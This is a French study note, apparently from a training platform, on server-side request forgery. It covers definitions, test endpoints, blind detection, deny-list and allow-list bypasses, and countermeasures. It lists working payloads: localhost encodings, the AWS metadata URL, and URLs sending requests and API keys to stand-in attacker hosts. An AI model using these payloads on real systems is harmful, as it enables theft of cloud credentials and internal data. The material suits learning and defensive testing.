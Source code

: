 Une faille **SSRF** apparaît lorsqu’une application web peut être manipulée pour envoyer des requêtes à des destinations arbitraires, contrôlées par l’attaquant.
### 🔹 Exemple concret

- Une appli envoie des SMS via une API externe en utilisant une **clé secrète**.
- Le paramètre `server` est exposé à l’utilisateur.
- Un attaquant peut le modifier pour rediriger la requête vers son propre serveur → il intercepte alors la requête **avec la clé API**.
- Ex. :
    `https://www.mysite.com/sms?server=attacker.thm&msg=ABC`
    Fait que le serveur envoie la requête vers :
    `https://attacker.thm/api/send?msg=ABC`
### 🔹 Risques et usages avancés de SSRF
- **Énumération réseau interne** (IP, ports).
- **Accès à des services internes protégés** via relations de confiance.
- **Interaction avec services non-HTTP** pouvant mener à de l’exécution de code à distance (RCE).
---
## Définition courte
- **SSRF (Server-Side Request Forgery)** : vulnérabilité où une appli côté serveur effectue des requêtes HTTP (ou autres protocoles) vers des ressources contrôlées par un paramètre utilisateur. L’attaquant manipule ce paramètre pour forcer le serveur à contacter des destinations internes ou externes.
---
## Endpoints fréquents à tester

- Paramètre contenant une **URL complète** (`?url=https://example.com/...`)
- **Champ caché** dans un formulaire
- **Hostname partiel** (`?host=internal.api`)
- **Chemin/Path seulement** (`?path=/api/status`)

---
## Blind SSRF
- Si la réponse n’est pas renvoyée (blind), utiliser un outil d’HTTP logging externe pour capter la requête : `requestbin`, serveur HTTP contrôlé, **Burp Collaborator**.
- Tester avec une URL pointant sur ton domaine/logging pour voir si le serveur effectue la requête.

---
## Contournements courants (bypass deny-lists)

**Deny list** = on bloque valeurs spécifiques (ex: `localhost`, `127.0.0.1`) → souvent contournable :
- Variantes d’localhost : `0`, `0.0.0.0`, `0000`, `127.1`, `127.*.*.*`
- Entiers/notations : `2130706433` (127.0.0.1 en déc), `017700000001` (octal)
- Sous-domaines qui résolvent vers 127.0.0.1 (ex. `127.0.0.1.nip.io`)
- DNS controlé : créer un sous-domaine pointant vers `169.254.169.254` (metadata cloud) 
**Allow list** = on n’autorise que certaines valeurs (`https://website.thm`) → contournements :
- **Host chaining / subdomain trick** : `https://website.thm.attacker.com` (si logique de validation naïve)
- **Open redirect** : trouver un endpoint `https://website.thm/link?url=...` qui redirige vers une URL externe ; utiliser cet endpoint comme « pivot » pour amener la requête interne vers ton serveur contrôlé.
---
## Techniques avancées vues dans l’exemple

- **Directory traversal sur path contrôlé** : si l’appli n’autorise que un _path_, jouer avec `../` pour remonter et atteindre `/api/user`.
- **Truc `&x=`** : terminer la charge utile par `&x=` pour éviter que le serveur concatène /attacker-path/rest_of_path à ton URL — ça force le reste à devenir query string et préserve l’URL de l’attaquant telle quelle.
- Capture possible des **headers** envoyés par le serveur interne (potentiellement contenant tokens/API keys).

---

## Payloads utiles (exemples)

- Full URL : `?url=http://attacker.example/setup`
- Localhost numeric: `http://2130706433/` (127.0.0.1 déc)
- Metadata cloud (AWS) : `http://169.254.169.254/latest/meta-data/`
- Subdomain trick: `http://169-254-169-254.attacker.com/` (DNS résolue par attaquant)
- Open redirect pivot: `?url=https://website.thm/redirect?to=http://attacker.example/&x=`

---
## Détection & preuves
- Logs : sorties DNS, logs HTTP du domaine attaquant (RequestBin, Burp Collab).
- Réponses anormales du serveur (timeouts, redirections).
- Requêtes sortantes visibles sur firewall / proxy / egress logs.

---
## Risques
- **Exfiltration de données internes** (metadata cloud, services internes).
- **Authentication theft** : headers (Authorization, cookies, API keys).
- **Pivoting interne** et RCE selon contexte.
- **DoS** si l’attaquant provoque des requêtes lourdes vers les services internes.
---
## Contre-mesures (checklist)

1. **Whitelisting stricte** : n’autoriser que des URLs/prefixes explicites (et vérifier host/IP résolu).
2. **Résolution DNS & validation d’IP** : résoudre et vérifier que l’IP cible n’est **pas** interne (y compris notation déc/octale).
3. **Bloquer egress non nécessaires** (firewall/proxy) vers IP sensibles (`127.0.0.0/8`, `169.254.169.254`, plages internes).
4. **Interdire les redirections non fiables** et valider les open-redirects.
5. **Limiter les protocoles** autorisés (HTTP/HTTPS seulement quand nécessaire).
6. **Logs & monitoring** des requêtes sortantes.
7. **Rate-limiting** et WAF rules pour patterns SSRF (`../`, `127.` encodé...).
8. **Ne pas inclure d’identifiants sensibles** dans headers pour requêtes internes si possible.